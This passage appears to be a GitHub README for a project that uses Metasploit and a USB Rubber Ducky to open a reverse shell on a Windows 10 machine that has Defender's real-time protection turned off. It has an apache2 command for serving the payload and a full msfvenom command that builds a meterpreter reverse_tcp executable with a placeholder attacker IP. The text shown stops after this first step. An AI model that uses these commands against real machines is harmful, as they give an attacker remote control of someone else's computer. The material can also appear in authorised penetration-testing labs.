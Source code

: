 # Ducky_reverse_tcp_shell
Uses the metasploit framework and the USB-RubberDucky to create a reverse- shell (without Bypass)

AttackerMachine: Kali Linux (2022.1)connected to the targets Network

TargetMachine: Windows 10 Home, Windows Defender: realtime Monitoring off 


1. Create a payload to be executes on the target machine.

msfvenom:

payload: windows/meterpreter/reverse_tcp

filetype: .exe (for windows)

Directory: /var/www/html/yourfile.exe 

--> sets the directory of the malicious file to the html directory of my machine. To start this small server ill use apache2. 

Command: sudo service apache2 start

Command2: msfvenom -p windows/meterpreter/reverse_tcp LHOST your.ip.addr.ess LPORT 4444 -f exe -o /var/www/html/Yourfile.exe





